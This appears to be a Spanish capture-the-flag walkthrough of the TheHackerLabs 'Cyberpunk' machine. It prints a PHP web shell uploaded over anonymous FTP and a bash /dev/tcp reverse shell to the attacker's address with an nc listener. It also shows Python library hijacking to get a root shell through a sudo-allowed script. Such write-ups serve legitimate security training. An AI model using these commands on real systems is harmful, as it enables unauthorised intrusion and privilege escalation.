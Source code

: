 ```yaml
---
layout: post
title: "Cyberpunk"
date: 2024-06-10 14:05:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Cyberpunk </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/cyberpunk/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Cyberpunk/host.png){:.margin}

**1\.** Veo hosts activos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/Cyberpunk/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios corriendo en la maquina.

`sudo nmap -p- --open -T5 -n -Pn -sCV --min-rate 192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/nmap.png){:.margin}

**3\.** En la web no hay nada mas que una imagen.

`http://192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80.png){:.margin}

**4\.** Ingreso por ftp como anonymous y veo tres recursos.

`ftp 192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/ftp.png){:.margin}

**5\.** Analizando los recursos.

_5.1- En imagenes encuentro la imagen de la web_

`http://192.168.1.7/images`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80images.png){:.margin}

_5.2- Aqui encuentro una nota_

`http://192.168.1.7/secret.txt`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80secrettxt.png){:.margin}

**6\.** Subiendo un webshell por ftp.

`nano shell.php`

`<?php system($_GET['cmd']);?>`

`put shell.php`

![img](/notas/public/img/thehackerlabs/Cyberpunk/shell.png){:.margin}

**7\.** Obteniendo la conexion por reverse shell.

_7.1- Me pongo en escucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/thehackerlabs/Cyberpunk/nc.png){:.margin}

_7.2- Envio la reverse shell_

`http://192.168.1.7/shell.php?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Cyberpunk/reverseshell.png){:.margin}

_7.1- Recibo la conexion_

![img](/notas/public/img/thehackerlabs/Cyberpunk/ncok.png){:.margin}

**8\.** Encuentro un archivo con codigo brainfuck, lo interpreto con [dcodefr](https://www.dcode.fr/brainfuck-language).

`ls /opt`

`cat /opt/arasaka.txt`

![img](/notas/public/img/thehackerlabs/Cyberpunk/arasakatxt.png){:.margin}
![img](/notas/public/img/thehackerlabs/Cyberpunk/dcodefr.png){:.margin}

**9\.** Tengo usuario arasaka, accedo por ssh con la contraseña interpretada anteriormente.

`cat /etc/passwd | grep bash`

`ssh `

![img](/notas/public/img/thehackerlabs/Cyberpunk/catpasswd.png){:.margin}
![img](/notas/public/img/thehackerlabs/Cyberpunk/ssharasaka.png){:.margin}

**10\.** Revisando archivos.

_10.1- Encuentro python que puedo ejecutarlo como root con el binario python3.11_

`ls -l`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Cyberpunk/sudol.png){:.margin}

_10.2- Veo que el script importa una libreria, pero no especifica la ruta de llamada_

`cat randombase64.py`

`sudo /usr/bin/python3.11 /home/arasaka/randombase64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/catrandom.png){:.margin}

**11\.** Creo un script llamado base64 para hacer Python Library Hijacking(_suplantar un libreria_).

`echo -e "import os \nos.system('/bin/bash')" > base64.py`

`cat base64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/base64py.png){:.margin}

**12\.** Escalando a root.

`sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>
